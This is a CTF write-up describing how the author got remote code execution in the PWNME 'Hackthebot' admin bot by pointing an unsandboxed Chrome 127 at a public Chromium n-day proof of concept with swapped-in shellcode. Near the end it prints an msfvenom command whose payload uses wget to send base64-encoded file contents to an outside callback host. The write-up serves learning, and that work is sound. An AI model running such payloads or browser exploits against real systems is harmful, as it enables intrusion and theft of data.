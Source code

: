 ```yaml
---
title: Too Lazy to get XSS? Then use n-days to get RCE in the Admin bot
date: 2025-03-02 11:20:05 +0530
categories: [pwnmectf,pwnme,web,ndays]
tags: [CTFTIME WRITEUP]
excerpt: Hackthebot 1 & 2 are web challenges from pwnme CTF
---
```


![image](https://github.com/user-attachments/assets/d04d656c-d2ed-4520-a134-b91b3b2318cd)

<br><br>

- Hackthebot 1 & 2 are web challenges from [PWNME](https://pwnme.phreaks.fr/challenges) CTF
- Both challenges shared the same instance: the first flag was stored in a cookie, while the second was located at `/root/flag2.txt`
- The intended approach was to exploit XSS to leak the cookie, while the second challenge involved using DevTools in some way
- But I really surprised with their configurations

```js
const browser = await puppeteer.launch({
            headless: 'new',
            args: ['--remote-allow-origins=*','--no-sandbox', '--disable-dev-shm-usage', `--user-data-dir=${browserCachePath}`]
        });
```

<br><br>

- The above code is from `source/app.js` and gets executed when the admin bot opens the link we provide
-  `--no-sandbox` flag was enabled, meaning that if I could compromise the renderer, gaining RCE would be ezPZ 😛
- I quickly checked the browser version 🧐


```css
root@e23711a7c095:~/.cache# ls -la ~/.cache/puppeteer/chrome/
total 12
drwxr-xr-x 3 root root 4096 Mar  1 13:40 .
drwxr-xr-x 4 root root 4096 Mar  1 13:39 ..
drwxr-xr-x 3 root root 4096 Mar  1 13:40 linux-127.0.6533.88
```

<br><br>

- They're running Chrome 127 🤔
- This version is vulnerable to multiple CVEs.

![image](https://github.com/user-attachments/assets/6ac08ac9-acde-4450-aced-3402bf172547)

<br><br>

- I recently came across this exploit last week: [https://issues.chromium.org/issues/365802567 ](https://issues.chromium.org/issues/365802567)
- Exploit POC: [https://issues.chromium.org/action/issues/365802567/attachments/59303131?download=false](https://issues.chromium.org/action/issues/365802567/attachments/59303131?download=false)
- The exploit is straightforward to test, requiring no modifications like offset adjustments for this specific Chrome version
- We just need to remove some windows specific cmd `calc` and replace shellcode

![image](https://github.com/user-attachments/assets/ff1f594b-ba68-4f56-846a-922e5e88f843)

<br><br>

- So I replaced the shellcode in the exploit and sent the link to ADMIN bot

![image](https://github.com/user-attachments/assets/423ecd8e-c4c3-42bf-8924-dd016f6da3e9)

<br><br>

- And got the second flag `PWNME{Th3re_ls_Mu1T1pL3_US4g3_Of_C4CH3:333}` 😝
- For the first flag

```bash
msfvenom -p linux/x64/exec CMD='wget https://uglxpmedoaubicfpwdzk5zdyse62qt1id.oast.fun/flag1=$(cat</app/app.js|grep${IFS}PWNME{|base64)' -f py
```

![image](https://github.com/user-attachments/assets/efadbce2-a702-4247-99ef-72698d9b3c2f)

<br><br>

- This scenario underscored the importance of examining configurations closely, as they can sometimes lead to unintended paths.
- I appreciate you taking the time to read this write-up :) hope you found it interesting! Thanks for reading! 😊

![](https://raw.githubusercontent.com/jopraveen/jopraveen/main/some-gifs/cat-cute.gif)
